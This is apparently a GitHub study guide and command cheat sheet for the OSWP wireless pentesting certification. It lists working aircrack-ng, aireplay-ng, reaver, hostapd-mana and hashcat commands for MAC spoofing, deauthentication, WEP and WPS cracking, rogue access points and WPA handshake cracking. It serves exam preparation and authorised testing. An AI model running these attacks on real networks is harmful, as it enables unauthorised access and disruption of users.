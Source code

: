 # OSWP-Study-Guide
Study guide and command sheet for Offensive Security PEN-210 course (Offensive Security Wireless Pentester - OSWP)

## Open Network with MAC filtering
In the event that fake authentication persistently fails, it is plausible that MAC address filtering is being employed. Under such a scheme, the Access Point (AP) will only permit connections from a predefined list of MAC addresses. Should this be the scenario, it will be necessary to acquire a legitimate MAC address by monitoring network traffic with the aid of Airodump-ng. Subsequently, impersonation of this MAC address should be carried out once the corresponding client has disconnected from the network. It is imperative to refrain from initiating a fake authentication attack targeting a specific MAC address if the client remains active on the AP.

### Packet capture
```bash
airodump-ng -w <CAPTURE_NAME> -c <CHANNEL> --bssid <BSSID> <INTERFACE>
```
### Get your MAC address
```bash
macchanger --show <INTERFACE>
```

### Fake authentication attack
```bash
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> <INTERFACE>
```

### ARP replay attack
```bash
aireplay-ng -3 -b <BSSID> -h <YOUR_MAC> <INTERFACE>
```

### Deauthentication attack
```bash
aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>
```

### Crack 
```bash
aircrack-ng <CAPTURE_NAME>
```

## WEP (Wired Equivalent Privacy)
WEP is a severely flawed security algorithm for IEEE 802.11 wireless networks. Below are the steps to exploit WEP vulnerabilities:


### Step 1: Kill conflicting processes
```bash
sudo airmon-ng check kill
```
### Step 2: Start monitor mode on wlan0
```bash
sudo airmon-ng start wlan0
```
### Step 3: Scan for WEP networks
```bash
sudo airodump-ng wlan0mon --encrypt WEP
```
### Step 4: Capture IVs
```bash
besside-ng -c Channel -b BSSID wlan0mon
```
### Step 5: Crack WEP key
```bash
aircrack-ng ./wep.cap
```

### Additional WEP Attacks:
- [Hirte Attack](https://pentestlab.blog/2015/02/03/hirte-attack/)
- [Caffe Latte Attck](https://www.computerworld.com/article/2539400/cafe-latte-attack-steals-data-from-wi-fi-users.html)

## WPS (Wi-Fi Protected Setup)
WPS was originally known as Wi-Fi Simple Configuration, aiming to unify vendor technologies for secure WPA/WPA2 passphrase sharing. However, it has its set of vulnerabilities. Below are the steps to identify and exploit WPS vulnerabilities:

### Identifying access points with WPS enabled
```bash
wash -i <INTERFACE> -s
```
### Fake authentication attack
```bash
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> <INTERFACE>
```
### Offline brute force (pixie dust)
```bash
reaver -i wlan0 -b BSSID -SNLAvv  -c 1 -K
```
### Online brute force 
```bash
reaver -i <INTERFACE> -b <BSSID> -SNLAsvv -d 1 -r 5:3 -c <CHANNEL_NUMBER>
```

## WPA/WPA2/WPA3 Testing
Steps for testing security on networks with WPA/WPA2/WPA3 encryption, including setting up rogue APs and capturing handshakes:

## Rogue Access Points
Instructions for creating a rogue AP.

### Discovery
```bash
sudo airodump-ng -w capturename –output-format pcap wlan0mon
```
**Wireshark Filters:**
```bash
wlan.fc.type_subtype == 0x08 #Broadcast Frames
wlan.ssid == “apname” #AP name
```
Filters can be appended to filter for broadcast frames from a specific AP:
```bash
wlan.fc.type_subtype == 0x08 && wlan.ssid == “apname”
```
The interesting parts are in Tag: Vendor Specific: & Tag: RSN: Information

### Creating a Rogue AP
Hostapd-mana template location:
```bash
/etc/hostapd-mana/hostapd-mana.conf
```
Or you may download the hostapd-mana.config in this repository and modify to your needs.

Start hostapd-mana:
```bash
sudo hostapd-mana hostapd-mana.conf
```

### Cracking .hccapx Files
**aircrack:**
```bash
aircrack-ng name.hccapx -w /wordlist/rockyou.txt
```
If you run into errors, you may try:
```bash
aircrack-ng name.hccapx -e ESSID -w /wordlist/rockyou.txt
```
**hashcat:**
```
hashcat -m 2500 capture.hccapx /usr/share/worlists/rockyou.txt
```

## Information Discovery Example
```bash
- ESSID of JesusIsTheWay
- BSSID of 34:5a:90:e0:5a:30
- WPS  (AES/CCM)
- Uses a PSK
- Runs on channel 1
```

## Definitions
- AP: Access Point
- BSSID: Basic Service Set Identifier is a 48-bit number that follows MAC address conventions.
- ESSID: Extended Service Set Identifier is a unique identifier to avoid interference on a wireless network.

## Troubleshooting
- Make sure that hostapd-mana is installed on Kali. Default installations currently feature hostapd, hostapd-wpa and hostapd_cli. None of these frameworks feature the *mana_wpaout* section in the *hostapd-mana.config*, and will result in error: *unknown configuration item 'mana_wpaout'*
- When starting the exam, fist thing after connecting to the .ovpn is to test both **SSH** and **RDP** protocols to ensure connection works as intended.
- In order to list wireless interfaces, execute command:
```bash
sudo airmon-ng
```
- To restart Network Manager, execute command:
```bash
systemctl restart NetworkManager.service
```  

## Sources
- [LIODEUS OSWP Cheatsheet](https://liodeus.github.io/2020/10/29/OSWP-personal-cheatsheet.html)
- [Hashcat File Formats](https://hashcat.net/wiki/doku.php?id=example_hashes)
- [Hashcat Cracking WPA/WPA2](https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2)

